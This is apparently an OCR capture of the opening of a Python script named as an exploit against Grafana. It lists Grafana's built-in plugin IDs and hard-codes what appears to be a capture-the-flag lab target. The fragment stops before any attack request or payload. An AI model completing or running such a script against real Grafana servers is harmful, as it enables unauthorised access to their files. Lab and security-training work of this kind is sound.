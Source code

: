 ```python
# (function)
def signal_handler(signum, frame):
	exit('\n[!] User terminated.')

# (signal)
signal(SIGINT, signal_handler)


## Global variables
# grafana plugins
plugins = [ 
	"alertlist",
	"annolist",
	"barchart",
	"bargauge",
	"candlestick",
	"cloudwatch",
	"dashlist",
	"elasticsearch",
	"gauge",
	"geomap",
	"gettingstarted",
	"grafana-azure-monitor-datasource",
	"graph",
	"heatmap",
	"histogram",
	"influxdb",
	"jaeger",
	"logs",
	"loki",
	"mssql",
	"mysql",
	"news",
	"nodeGraph",
	"opentsdb",
	"piechart",
	"pluginlist",
	"postgres",
	"prometheus",
	"stackdriver",
	"stat",
	"state-timeline",
	"status-history",
	"table",
	"table-old",
	"tempo",
	"testdata",
	"text",
	"timeseries",
	"welcome",
	"zipkin"
]

## Main class
class Exploit:
	def __init__(self, args):
		self.args = args

		self.target_host = {
			'ip_address' : '10.10.11.183',
			'grafana_service' : 'http://10.10.11.183:3000'
		}

```